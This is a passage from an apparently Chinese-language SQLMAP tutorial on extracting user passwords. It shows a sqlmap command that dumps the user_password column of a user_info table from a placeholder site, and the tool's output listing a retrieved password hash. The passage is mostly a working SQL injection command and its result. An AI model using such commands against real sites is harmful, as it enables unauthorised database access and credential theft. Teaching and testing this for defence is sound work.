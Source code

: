 ## 0x06 提取用户密码

* * *

你可能已经习惯如何使用 SQLMAP 了！使用下面的参数来提取密码字段的数值吧！

```
sqlmap -u http://www.sqldummywebsite.com/cgi-bin/item.cgi?item_id=15 -D sqldummywebsite -T user_info -C user_password --dump 
```

现在我们得到密码字段了：

```
[10:59:15] [INFO] the SQL query used returns 1 entries
[10:59:17] [INFO] retrieved: 24iYBc17xK0e.
[10:59:18] [INFO] analyzing table dump for possible password hashes
Database: sqldummywebsite
Table: user_info
[1 entry]
+---------------+
| user_password |
+---------------+
| 24iYBc17xK0e. |
+---------------+ 
```

![2014052915045923606_png.jpg](img/img5_u3_jpg.jpg)
